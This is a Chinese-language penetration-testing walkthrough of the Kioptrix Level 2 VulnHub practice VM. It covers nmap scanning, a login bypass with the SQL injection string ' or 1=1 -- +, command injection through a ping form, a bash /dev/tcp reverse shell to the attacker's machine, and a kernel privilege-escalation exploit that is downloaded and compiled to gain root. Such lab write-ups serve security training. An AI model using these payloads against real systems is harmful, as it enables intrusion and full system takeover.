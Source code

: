 # 环境

来自[Kioptrix_leve_2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.networkName = "Bridged"`改成`nat`

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240615161156785](image/image-20240615161156785.png)

## 端口收集

```bash
sudo nmap -sT -r -p- 192.168.88.26
```

![image-20240615161246068](image/image-20240615161246068.png)

## 详细服务查询

```bash
sudo nmap -sV -p22,80,111,443,631，804,3306 192.168.88.26
```

攻击面80>443>3306>22

![image-20240615161920349](image/image-20240615161920349.png)

# 测试利用

## getshell1

访问web页面，发现是一个登录页面，可以考虑一下万能密码，或者爆破，试了一下万能密码`' or 1=1 -- +`，居然成功，说明有Sql注入点

![image-20240615162844529](image/image-20240615162844529.png)

登录进去之后，发现这个执行ping命令的操作，可以考虑远程命令执行，成功

![image-20240615162804727](image/image-20240615162804727.png)

![image-20240615162754412](image/image-20240615162754412.png)

我们尝试反弹shell，payload=`|bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`，进行监听`nc -lvvp 8888`

![image-20240615164311407](image/image-20240615164311407.png)

成功取shell，继续进行提权，首先查看linux系统和内核信息

```bash
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
cat /etc/*release
CentOS release 4.5 (Final)

searchsploit kernel 2.6 centos 4
```

![image-20240615210631491](image/image-20240615210631491.png)

找到比较接近的提权脚本，传给靶机进行编译运行，kali使用python开启http服务，靶机进行wget操作

```bash
gcc 9479.c -o exp
chmod 755 exp
./exp
```

成功提权root

![image-20240615211027499](image/image-20240615211027499.png)
